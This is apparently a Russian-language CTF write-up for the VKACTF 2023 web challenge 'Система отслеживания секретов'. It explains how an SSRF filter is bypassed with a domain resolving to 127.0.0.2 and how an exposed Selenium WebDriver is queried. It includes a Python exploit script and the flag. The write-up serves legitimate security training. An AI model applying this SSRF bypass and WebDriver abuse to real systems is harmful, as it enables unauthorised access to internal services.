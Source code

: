 ## Система отслеживания секретов

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Система отслеживания секретов | Web | Легкая |

  
### Описание


> Автор: [Po4est]
>
Доктор Эггман скрывает у себя на сервере что-то очень важное, он даже настроил систему для постоянного наблюдения за своими секретами. Получится ли у тебя раскрыть его тайны?


### Решение
Нам дан сайт, с возможностью отправки запроса на указанный url.

По функционалу понятно, что здесь есть возможность эксплуатации SSRF.

Опытным путем можно выяснить, что все запросы на любой ip адресс блокирются, а на доменные имена отправляются без каких либо проблем.

Можем попробовать найти доменные имена с ip 127.0.0.1, можем сгенерировать его с помощью онлайн сервиса https://lock.cmpxchg8b.com/rebinder.html или на [2ip](https://2ip.ru/domain-list-by-ip/) посмотреть все домены, расположенные на нужном нам ip адрессе.

Возьмем например http://drr.ac расположенный на ip 127.0.0.1, но получим BLACKLISTED

Можно сделать вывод, что фильтры блокируют не только ip адреса, но и доменные имена расположенные на ip 127.0.0.1

Но это тоже можно обойти, т.к на сервер расположенный на 127.0.0.1 можно зайти с любого ip адреса принадлежащему 127.0.0.0/8

Давайте теперь попробуем найти доменное имя расположенное например на 127.0.0.2, я выбрал http://0nd.com

Теперь, если мы отправим этот url, то получим такой вывод

![](images/result.jpg)

Если мы попробуем поискать эту ошибку в интернете, то найдем, что это вывод Selenium WebDriver.

Копнем глубже, почитаем документацию и найдем команды для вебдрайвера.

![](images/endpoints.png)

Получаем сессию по ручке /sessions, а дальше уже дело техники.

Вот скрипт на питоне:
```
import requests
import re

sess = requests.Session()

evilurl = "http://0nd.com"

def CheckAcces():
    if sess.get('https://hiddensecret.vkactf.ru/').status_code == 200:
        return 'Сайт работает'
    else:
        return 'Сайт недоступен'

def CheckSessions():
    session = sess.post("https://hiddensecret.vkactf.ru/", data={"url":f"{evilurl}/sessions"})
    try:
        sessionid = re.search(r'id":"(.*)"', session.text).group(1)
        return sessionid
    except:
        return 'Не удалось получить sessionId!'

def CheckFlag():
    try:
        sessionid = CheckSessions()
        source = sess.post("https://hiddensecret.vkactf.ru/", data={"url":f"{evilurl}/session/{sessionid}/source"})
        flag = re.search(r';\\">(.*)\\u003C/pre>', source.text).group(1)
        return flag
    except:
        return 'Не удалось получить флаг!'

if __name__ == "__main__":
    print(CheckAcces())
    print(CheckSessions())
    print(CheckFlag())
```

### Флаг

```
vka{webdriver_in_the_wrong_hands_is_very_dangerous}
```